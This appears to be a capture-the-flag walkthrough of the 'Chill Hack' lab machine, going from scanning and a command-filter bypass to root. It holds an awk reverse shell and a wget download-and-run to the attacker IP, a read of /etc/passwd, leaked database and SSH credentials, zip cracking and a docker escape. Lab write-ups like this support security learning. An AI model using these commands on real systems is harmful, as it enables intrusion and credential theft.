




# Chill Hack

## Nmap

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -p- 10.10.76.186                                  
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-23 13:23 EST
Nmap scan report for 10.10.76.186
Host is up (0.048s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 92.29 seconds


┌──(kali㉿kali)-[~]
└─$ sudo nmap -sSVC -p 21,22,80 10.10.76.186                        
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-23 13:25 EST
Nmap scan report for 10.10.76.186
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.191.218
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/smit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.46 seconds

```

## FTP

```
ftp> ls
229 Entering Extended Passive Mode (|||40431|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ cat note.txt      
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

### Gobuster

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.76.186 -w /usr/share/wordlists/dirb/common.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.186
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.hta.html            (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/about.html           (Status: 200) [Size: 21339]
/blog.html            (Status: 200) [Size: 30279]
/contact.html         (Status: 200) [Size: 18301]
/css                  (Status: 301) [Size: 310] [--> http://10.10.76.186/css/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.76.186/fonts/]
/images               (Status: 301) [Size: 313] [--> http://10.10.76.186/images/]
/index.html           (Status: 200) [Size: 35184]
/index.html           (Status: 200) [Size: 35184]
/js                   (Status: 301) [Size: 309] [--> http://10.10.76.186/js/]
/news.html            (Status: 200) [Size: 19718]
/secret               (Status: 301) [Size: 313] [--> http://10.10.76.186/secret/]
/server-status        (Status: 403) [Size: 277]
/team.html            (Status: 200) [Size: 19868]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```



## secret

whoami command


ls command





The backend is probably blocking some commands from running based on their name.


Getting a reverse shell with awk

```awk 'BEGIN {s = "/inet/tcp/0/10.8.191.218/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```




We can now see the blacklisted commands

```
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');

```

The check is also not very efective
```
  $cmd = $_POST['command'];
                $store = explode(" ",$cmd);
                $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
                for($i=0; $i<count($store); $i++)
                {
                        for($j=0; $j<count($blacklist); $j++)
                        {
                                if($store[$i] == $blacklist[$j])
                                {?>

```


```
shell>ls ../../files
account.php
hacker.php
images
index.php
style.css
shell>

shell>cat ../../files/hacker.php
<html>
<head>
<body>
<style>
body {
  background-image: url('images/002d7e638fb463fb7a266f5ffc7ac47d.gif');
}
h2
{
        color:red;
        font-weight: bold;
}
h1
{
        color: yellow;
        font-weight: bold;
}
</style>
<center>
        <br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
</head>
</html>


shell>cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aurick:x:1000:1000:Anurodh:/home/aurick:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
apaar:x:1001:1001:,,,:/home/apaar:/bin/bash
anurodh:x:1002:1002:,,,:/home/anurodh:/bin/bash
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin


```


total 44 drwxr-xr-x 5 apaar apaar 4096 Oct 4 2020 . drwxr-xr-x 5 root root 4096 Oct 3 2020 .. -rw------- 1 apaar apaar 0 Oct 4 2020 .bash_history -rw-r--r-- 1 apaar apaar 220 Oct 3 2020 .bash_logout -rw-r--r-- 1 apaar apaar 3771 Oct 3 2020 .bashrc drwx------ 2 apaar apaar 4096 Oct 3 2020 .cache drwx------ 3 apaar apaar 4096 Oct 3 2020 .gnupg -rwxrwxr-x 1 apaar apaar 286 Oct 4 2020 .helpline.sh -rw-r--r-- 1 apaar apaar 807 Oct 3 2020 .profile drwxr-xr-x 2 apaar apaar 4096 Oct 3 2020 .ssh -rw------- 1 apaar apaar 817 Oct 3 2020 .viminfo -rw-rw---- 1 apaar apaar 46 Oct 4 2020 local.txt


base64 /home/apaar/.helpline.sh | base64 -d

```
shell>cat ../../files/account.php
<?php

class Account
{
        public function __construct($con)
        {
                $this->con = $con;
        }
        public function login($un,$pw)
        {
                $pw = hash("md5",$pw);
                $query = $this->con->prepare("SELECT * FROM users WHERE username='$un' AND password='$pw'");
                $query->execute();
                if($query->rowCount() >= 1)
                {
                        return true;
                }?>
                <h1 style="color:red";>Invalid username or password</h1>
        <?php }
}

?>
```

```
shell>cat ../../files/index.php
<html>
<body>
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();
                session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
                        $con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
                }
                catch(PDOException $e)
                {
                        exit("Connection failed ". $e->getMessage());
                }
                require_once("account.php");
                $account = new Account($con);
                $success = $account->login($username,$password);
                if($success)
                {
                        header("Location: hacker.php");
                }
        }
?>
<link rel="stylesheet" type="text/css" href="style.css">
        <div class="signInContainer">
                <div class="column">
                        <div class="header">
                                <h2 style="color:blue;">Customer Portal</h2>
                                <h3 style="color:green;">Log In<h3>
                        </div>
                        <form method="POST">
                                <?php echo $success?>
                                <input type="text" name="username" id="username" placeholder="Username" required>
                                <input type="password" name="password" id="password" placeholder="Password" required>
                                <input type="submit" name="submit" value="Submit">
                        </form>
                </div>
        </div>
</body>
</html>
shell>

```


### Another simpler way to get a shell

```
wget -O /tmp/rev.sh http://10.8.191.218:2345/rev.sh 


/bin/bash /tmp/rev.sh
```

Upgrade the shell to tty with python

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Mysql

```
www-data@ubuntu:/var/www/files$ mysql -u root -p webportal
mysql -u root -p webportal
Enter password: !@m+her00+@db

mysql>  show tables;
show tables;
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
1 row in set (0.00 sec)


mysql> select * from users;
select * from users;
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
2 rows in set (0.00 sec)

```


Anurodh:masterpassword
Apaar:dontaskdonttell


### privesc

```
www-data@ubuntu:/home/apaar$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

```
www-data@ubuntu:/home/apaar$ cat .helpline.sh       
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

```
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: me
me
Hello user! I am me,  Please enter your message: chmod +rwx /home/apaar/local.txt
chmod +rwx /home/apaar/local.txt
Thank you for your precious time!


Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: me
me
Hello user! I am me,  Please enter your message: /bin/bash 
```

## other user





```
┌──(kali㉿kali)-[~/Desktop/chill]
└─$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```


```
┌──(kali㉿kali)-[~/Desktop/chill]
└─$ john zipJohn --wordlist=/home/kali/Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)     
1g 0:00:00:00 DONE (2023-11-23 16:44) 20.00g/s 245760p/s 245760c/s 245760C/s total90..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


ssh creds:

anurodh:!d0ntKn0wmYp@ssw0rd


## root

```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

```
anurodh@ubuntu:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
alpine              latest              a24bb4013296        3 years ago         5.57MB
hello-world         latest              bf756fb1ae65        3 years ago         13.3kB

anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
#
```